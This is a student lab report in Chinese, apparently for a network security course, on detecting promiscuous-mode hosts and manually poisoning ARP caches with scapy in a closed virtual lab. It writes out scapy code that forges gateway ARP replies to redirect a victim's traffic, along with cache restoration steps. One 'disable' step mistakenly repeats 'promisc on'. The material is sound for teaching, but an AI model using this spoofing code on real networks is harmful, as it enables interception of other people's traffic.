 # Exp-04 网络监听

### 1. 实验环境

- 网络拓扑

  ![img](img/topo.PNG)

- 节点信息

  |   虚拟机名称    |      网卡选择      |      IP地址       |      MAC地址      |
  | :-------------: | :----------------: | :---------------: | :---------------: |
  | gateway-ubuntu  |  NAT网络，ID-net   |    10.0.2.4/24    | 08:00:27:9b:8c:3b |
  |                 |   Host-Only网络    | 192.168.56.106/24 | 08:00:27:83:21:84 |
  |                 | 内部网络，intnet-2 |  172.20.35.1/24   | 08:00:27:5b:99:a5 |
  |   victim-xp-2   | 内部网络，intnet-2 |  172.20.35.36/24  | 08:00:27:39:b0:2c |
  |  victim-ubuntu  | 内部网络，intnet-2 | 172.20.35.144/24  | 08:00:27:8c:f7:d3 |
  | attacker-intnet | 内部网络，intnet-2 | 172.20.35.148/24  | 08:00:27:ae:35:30 |

### 2. 实验准备

- 在attacker-intnet上安装scapy

  ```cmd
  # install python3
  apt-get update && apt-get install python3 python3-pip
  pip3 install scapy[complete]
  ```

### 3. 实验过程

- **实验一 检测局域网中的异常终端**

  - victim-ubuntu

    1. 关闭网卡混杂模式

       ```cmd
       # 在受害者主机上检查网卡的「混杂模式」是否启用
       ip link show enp0s3
       # *(注：若未出现 PROMISC 字段表示未启用网卡混杂模式)
       # 在攻击者主机上开启scapy
       scapy
       # 向靶机发送ARP请求
       pkt = promiscping("172.20.35.144")
       ```

       ![img](img/exp01-off-ubuntu.PNG)

       ![img](img/exp01-before-ubuntu.PNG)

    2. 开启网卡混杂模式，此时靶机「状态异常」，可被检测出

       ```cmd
       # 开启网卡混杂模式
       ip link set enp0s3 promisc on
       ip link show enp0s3
       # *(注：此时终端界面中出现PROMISC字段)
       # 返回攻击者主机，继续发送ARP请求
       pkt = promiscping("172.20.35.144")
       
       # 关闭靶机的网卡混杂模式
       ip link set enp0s3 promisc on
       ```
       
       ![img](img/exp01-on-ubuntu.PNG)
       
       ![img](img/exp01-after-ubuntu.PNG)

  - victim-xp-2

    1. 关闭网卡混杂模式

       ```cmd
       # 返回攻击者主机继续发送ARP请求
       pkt = promiscping("172.20.35.36")
       ```

       ![img](img/exp01-before-xp.PNG)

    2. 开启网卡混杂模式，此时靶机「状态异常」，可被检测出

       ```cmd
       ======== Preparations on XP ========
       # 操作理由：WinDump默认在网卡混杂模式下运行
       1. Install WinPcap
       2. Download WinDump.exe
       3. Run WinDump.exe
       
       # 返回攻击者主机继续发送ARP请求
       pkt = promiscping("172.20.35.36")
       ```

       ![img](img/exp01-after-xp.PNG)

- **实验二 手工单步“毒化”目标主机的 ARP 缓存**

  ```cmd
  ======== 手工单步毒化ARP缓存 ========
  # 构造ARP请求
  arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst=gateway_ip)
  # 查看构造好的ARP请求报文详情
  arpbroadcast.show()
  # 发送ARP广播请求，并接收响应包
  recved = srp(arpbroadcast, timeout=2)
  # 获得网关的MAC地址
  gw_mac = recved[0][0][1].hwsrc
  # 伪造网关的ARP响应包发送给受害者主机，将ARP响应的目的地址改为攻击者主机的MAC地址
  arpspoofed = Ether(dst=victim_mac)/ARP(op=2, psrc=gateway_ip, pdst=victim_ip, hwdst=attacker_mac)
  # 发送伪造的ARP数据包到受害者主机
  sendp(arpspoofed)
  # 在受害者主机查看ARP缓存，发现网关MAC地址已被替换为攻击者主机的MAC地址
  # victim-ubuntu
  ip neigh
  # victim windows-xp-2
  arp -a
  
  ======== 靶机 ARP 缓存恢复 ========
  # 伪装网关给受害者发送 ARP 响应
  restorepkt1 = ARP(op=2, psrc=gateway_ip, hwsrc=original_gateway_mac, pdst=victim_ip, hwdst=victim_mac)
  sendp(restorepkt1, count=100, inter=0.2)
  # 伪装受害者给网关发送 ARP 响应
  restorepkt2 = ARP(op=2, pdst=gateway_ip, hwdst=gateway_ip, psrc=victim_ip, hwsrc=victim_mac)
  sendp(restorepkt2, count=100, inter=0.2)
  ```

  ![img](img/exp02-arp-info.PNG)

  ![img](img/exp02-gw.PNG)

  - victim-ubuntu

    ![img](img/exp02-arpspoofed-info-ubuntu.PNG)

    ![img](img/exp02-arp-after.PNG)

    ![img](img/exp02-arp-restore-ubuntu.PNG)

  - victim-xp-2

    ![img](img/exp02-arpspoofed-info-xp.PNG)

    ![img](img/exp02-arp-xp.PNG)

    ![img](img/exp02-arp-restore-xp.PNG)

### 4. 遇到的问题

- 使用`srp`命令后无法得到正确的ARP响应包

  ![img](img/exp02-prob-1.PNG)

  **解决方法：** 

  1. 做第一个实验的时候在网关上将防火墙规则设置为同一网段的靶机不互通，但此次实验时攻击者主机与靶机同网段，因此只需保留如下过滤规则，重新设置网关防火墙：

     ```cmd
     # 此次实验在intnet2中进行，所以只需设置172.20.35.0/24网段即可
     root@gateway:/home/idchannov# iptables -t nat -A POSTROUTING -s 172.20.35.0/24 -o enp0s3 -j MASQUERADE
     ```

     ![img](img/exp02-solved-1.PNG)

  2. 网关地址写错（啊…这就真的很淦qwq

- 伪造的网关ARP相应包发不出去

  **解决方法：** 在构造ARP相应包时添加数据链路层Ether()

### 5. 参考资料

- [Re: [Ethereal-users] Windows XP Promiscuous mode](https://www.wireshark.org/lists/ethereal-users/200302/msg00258.html)
- [中传信安课程网站 第四章-网络监听-实验](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)
